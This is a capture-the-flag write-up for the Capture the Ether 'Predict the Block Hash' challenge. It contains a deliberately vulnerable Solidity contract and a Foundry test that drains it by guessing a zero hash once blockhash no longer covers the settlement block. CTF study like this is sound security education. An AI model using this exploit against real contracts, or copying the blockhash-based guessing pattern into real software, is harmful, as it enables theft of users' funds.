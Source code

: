 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Predict the Block Hash - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Predict the Block Hash CTF
---
```


# Capture the Ether (RareSkills Repo) - Predict the Block Hash - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

//Challenge
contract PredictTheBlockhash {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    constructor() payable {
        require(msg.value == 1 ether, "Requires 1 ether to create this contract");
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == address(0), "Requires guesser to be zero address");
        require(msg.value == 1 ether, "Requires msg.value to be 1 ether");

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser, "Requires msg.sender to be guesser");
        require(block.number > settlementBlockNumber, "Requires block.number to be more than settlementBlockNumber");

        bytes32 answer = blockhash(settlementBlockNumber);

        guesser = address(0);
        if (guess == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Transfer to msg.sender failed");
        }
    }
}
```

## Solution

To exploit this contract, it's important to know that `blockhash` only returns the actual block hash for the last 256 blocks due to performance reasons. For any blocks that lie further in the past, `blockhash` will return `0x0000000000000000000000000000000000000000000000000000000000000000`.

Therefore, we can call `lockInGuess` with `hash = 0x0000000000000000000000000000000000000000000000000000000000000000`, wait until the corresponding block lies far enough in the past, and finally call `settle`.

_PredictTheBlockhash.t.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import "../src/PredictTheBlockhash.sol";

contract PredictTheBlockhashTest is Test {
    PredictTheBlockhash public predictTheBlockhash;

    function setUp() public {
        predictTheBlockhash = (new PredictTheBlockhash){value: 1 ether}();
    }

    function testExploit() public {
        // Set block number
        uint256 blockNumber = block.number;

        // Put your solution here
        predictTheBlockhash.lockInGuess{value: 1 ether}(
            0x0000000000000000000000000000000000000000000000000000000000000000
        );

        vm.roll(blockNumber + 258);
        predictTheBlockhash.settle();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(predictTheBlockhash.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```
